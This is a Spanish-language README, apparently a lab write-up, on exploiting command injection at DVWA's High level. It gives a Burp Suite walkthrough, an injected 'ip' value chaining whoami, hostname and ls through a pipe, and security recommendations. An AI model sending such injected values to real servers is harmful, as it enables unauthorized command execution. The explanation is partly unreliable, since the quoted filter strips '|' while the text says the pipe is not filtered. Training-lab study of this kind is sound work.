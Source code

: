 # 💣 DVWA - Command Injection (High Level)

En este repositorio se explica cómo explotar  la vulnerabilidad de **Command Injection** en el nivel **High** de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Ejecutar comandos arbitrarios del sistema en el servidor utilizando como vector de entrada el parámetro del formulario de búsqueda de IP, y saltarse las protecciones del nivel High.

---

## 🧠 Análisis técnico

En este nivel, el código fuente utiliza una función de validación para **filtrar caracteres especiales** que suelen ser usados en ataques de inyección de comandos (como `&`, `;`, `|`, etc.).

```php
$target = $_REQUEST[ 'ip' ];
$substitutions = array(
    '&&' => '',
    ';'  => '',
    '|'  => '',
    '`'  => '',
    '||' => '',
);

$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

- Se permite la ejecución del comando `ping`, pero se limpia la entrada antes de concatenarla.
- Los caracteres de escape simples son eliminados, pero **no se filtran subprocesos (`$()`)**.

---

## 🛠 Paso a paso para explotar (High Level)

1. Escribimos la dirección IP de localhost `127.0.0.1` y le damos a `Submit`.

![Ping_127.0.0.1](assets/CI_Ping.png) 

2. Accedemos a la petición generada en el **Burp Suite** y mandamos esta petición al **Repeater**

![BurpSuite_Repeater](assets/CI_BurpSuite.png) 

3. En el **Repeater**, modificamos el parámetro `ip` de este modo:

```bash
ip=127.0.0.1|whoami|hostname|ls&Submit=Submit
```
Esto inyecta los comandos `whoami`, `hostname` y `ls` a través del operador `|`.

4. Mandamos la petición desde el botón `Send` y observamos que se han listado archivos o rutas como:
```
help
index.php
source
```

![Repeater_Comando](assets/CI_RepeaterComando.png) 

5. Desde la respuesta en Burp, hacemos clic derecho ➜ **Show response in browser** y copiamos la URL en el navegador.
```
http://burpsuite/show/9/tmvb3too00ggczu5xefnohefoo9gkgiz
```

6. Lo pegamos en el navegador y vemos directamente la salida de los comandos inyectados.

![Resultado](assets/CI_Resultado.png) 

✅ **Exploit exitoso:** el filtro de seguridad fue evadido gracias al uso del operador `|`.

---

## 🔍 Por qué funciona

- El filtro borra símbolos como `;`, `&&`, pero **no valida correctamente `|`**, ni escapa la entrada como argumento de shell.
- Se ejecuta internamente con algo similar a:

```bash
ping -c 4 $target
```

Si `$target` es `127.0.0.1|ls`, la shell lo interpreta como:

```bash
ping -c 4 127.0.0.1 | ls
```

---

## 🛡️ Recomendaciones de seguridad

- Nunca concatenar comandos del sistema con entrada del usuario.
- Utilizar funciones como `escapeshellcmd()` y `escapeshellarg()` si es estrictamente necesario.
- Validar los datos del usuario con **whitelisting** (por ejemplo, solo permitir IPs con regex).
- Usar `proc_open()` o `shell_exec()` con máxima precaución, y con contexto controlado.
- Aislar la ejecución de comandos en contenedores o entornos restringidos (sandboxing).

---

## 📚 Recursos

- ▶️ [Vídeo: DVWA Command Injection (High Level)](https://www.youtube.com/watch?v=WiqRvlN_UIU&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📝 [Writeup de Aftab Sama](https://aftabsama.com/writeups/dvwa/command-injection/)
- 📖 [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
